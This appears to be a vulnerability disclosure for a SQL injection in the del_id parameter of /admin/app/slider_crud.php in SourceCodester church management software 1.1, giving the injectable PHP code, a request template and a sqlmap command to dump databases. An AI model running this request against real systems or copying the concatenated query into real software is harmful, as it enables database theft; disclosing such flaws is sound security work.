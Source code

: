 # Code Source
https://www.sourcecodester.com/php/17856/best-church-management-software-free-download-full-version.html
# Description
A vulnerability has been found in SourceCodester Best church management software 1.1 and classified as critical. SourceCodester Best church management software 1.1 has a SQL Injection vulnerability in /admin/app/slider_crud.php. Affected is file /admin/app/slider_crud.php,The manipulation of the argument del_id leads to SQL inject. Remote attackers can leverage time-based blind SQL injection to extract data from the database.

# Request：
```
POST /admin/app/slider_crud.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

del_id=*
```

# Affect code:
```php
... ...
if (isset($_POST['del_id'])) 
  {
      $stmt = $conn->prepare("UPDATE `slider` SET delete_status='1' where id='".$_POST['del_id']."' ");
      $stmt->execute();
      $_SESSION['delete']="delete";
      header("location:../manage_slider.php" ); 
  }
... ...
```

# Exploit:
`python sqlmap.py -r 2.txt --dbs`
![图片](https://github.com/user-attachments/assets/a4a1f8b1-6ce1-4eef-8828-b7b3067a16fc)
![图片](https://github.com/user-attachments/assets/eb26ff3a-19a4-4f4e-acb1-cf3c936fa840)

